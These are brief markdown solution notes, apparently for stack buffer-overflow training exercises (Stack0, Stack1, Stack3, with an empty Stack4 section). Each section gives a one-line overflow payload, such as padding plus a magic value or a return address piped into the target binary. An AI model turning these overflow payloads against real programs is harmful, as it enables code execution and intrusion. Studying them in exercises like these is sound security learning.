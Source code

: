## Stack0

```bash
python -c "print('A'*65)" | ./stack0
```

## Stack1

---

```lua
print(b"A"*64+b"\x64\x63\x62\x61")
```

---

## Stack3

```lua
python -c "print('A'*64 + '\x24\x84\x04\x08')" | ./stack3
```

---

## Stack4

```bash

```

